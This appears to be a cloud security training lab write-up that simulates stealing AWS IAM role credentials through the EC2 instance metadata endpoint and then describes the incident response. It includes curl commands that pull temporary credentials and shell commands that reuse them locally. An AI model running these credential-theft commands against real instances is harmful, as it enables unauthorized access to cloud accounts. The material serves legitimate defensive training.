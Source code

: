 # Module 4 – Domain 1: Threat Detection and Incident Response

## Lab Summary
Deployed a CloudFormation stack in the **Management** account that launched two EC2 instances for hands-on security testing.

---

## Exploitation Simulation

### Step 1 – Extract IAM Role Credentials from EC2
From within an EC2 instance:
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>
```
Retrieved:
- **Access Key**
- **Secret Key**
- **Session Token**

Example credentials retrieved during the lab:
```json
{
  "Code" : "Success",
  "LastUpdated" : "2025-08-07T06:28:23Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIAEXAMPLE",
  "SecretAccessKey" : "EXAMPLESECRETKEY",
  "Token" : "EXAMPLETOKEN",
  "Expiration" : "2025-08-07T12:54:46Z"
}
```

---

### Step 2 – Use Stolen Credentials Locally

**Linux / macOS**
```bash
export AWS_ACCESS_KEY_ID=<ACCESS_KEY>
export AWS_SECRET_ACCESS_KEY=<SECRET_KEY>
export AWS_SESSION_TOKEN=<SESSION_TOKEN>
aws s3 ls
aws ec2 describe-instances --region us-east-1
```

**Windows CMD**
```cmd
SET AWS_ACCESS_KEY_ID=<ACCESS_KEY>
SET AWS_SECRET_ACCESS_KEY=<SECRET_KEY>
SET AWS_SESSION_TOKEN=<SESSION_TOKEN>
aws s3 ls
aws ec2 describe-instances --region us-east-1
```

---

### Step 3 – Validate Persistence of Credentials
- Stopped and started the EC2 instance.
- Repeated `curl` extraction to retrieve **new temporary credentials**.
- Confirmed attacker could regain access.

---

## Incident Response Actions
- Revoked all active sessions for the affected IAM role to **immediately invalidate stolen credentials**.
- Created and executed a script to revoke all sessions issued before the current timestamp.
- Forced all EC2 instances using the role to **stop and restart**, triggering issuance of secure new credentials.
- Mitigation completed **without removing IAM roles or permissions** required for legitimate workloads.

---

## Key Takeaways
- IMDSv1 can be exploited if EC2 instances are compromised.
- Temporary credentials can persist after stop/start unless revoked.
- Session revocation and resource restart are effective containment measures.
